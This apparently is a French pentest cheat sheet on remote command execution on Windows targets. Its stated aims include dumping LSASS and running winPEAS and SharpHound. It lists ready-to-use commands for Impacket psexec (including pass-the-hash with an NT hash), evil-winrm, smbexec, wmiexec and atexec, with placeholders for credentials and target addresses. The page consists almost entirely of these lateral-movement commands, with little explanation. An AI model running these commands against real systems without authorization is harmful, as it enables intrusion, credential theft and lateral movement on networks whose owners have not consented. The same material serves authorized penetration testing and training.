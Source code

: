 # Exécution de commandes

> Commandes pour réaliser de l'exécution de commandes sur une machine cible
>
> Objectifs :
>
> - exécuter des commandes sur le serveur
> - lire des fichiers internes au serveur
> - dump LSASS 
> - exécuter winPeas
> - exécuter des .exe (e.g. SharpHound pour utiliser BloodHound)



### PsExec

> Prérequis : Identifiants d'un utilisateur / hash NTLM (au moins admin local car nécessité d'écrire dans le share ADMIN$)
>

```bash
# Sur une machine client
$ impacket-psexec 'USERNAME:PASSWORD@<IP_CLIENT>'
# Hash LM vide : aad3b435b51404eeaad3b435b51404ee / Remplacer par hash LM s'il y en a un
$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:<HASH_NT> 'USERNAME@<IP_CLIENT>'
```



### WinRM (evil-winrm)

> Prérequis : port 5985 d'ouvert / un compte utilisateur
>
> Lorsque ce port est ouvert, possibilité d'obtenir un shell restreint via WinRM
>

```bash
$ evil-winrm -i <IP_VICT> -u <USERNAME> -p <PASSWORD>      
```



### SMBExec

> Prérequis : A creuser
>

```bash
$ python3 /usr/share/doc/python3-impacket/examples/smbexec.py '<DOMAIN.COM>/<USER>:<PASSWORD>?@<IP_CIBLE>'               
```



### WmiExec

> Prérequis : A creuser
>

```bash
$ python3 /usr/share/doc/python3-impacket/examples/wmiexec.py '<DOMAIN.COM>/<USER>:<PASSWORD>?@<IP_CIBLE>'               
```



### AtExec

> Prérequis : A creuser
>

```bash
# Commande : e.g. whoami
$ python3 /usr/share/doc/python3-impacket/examples/atexec.py '<DOMAIN.COM>/<USER>:<PASSWORD>?@<IP_CIBLE>' <COMMANDE>
```

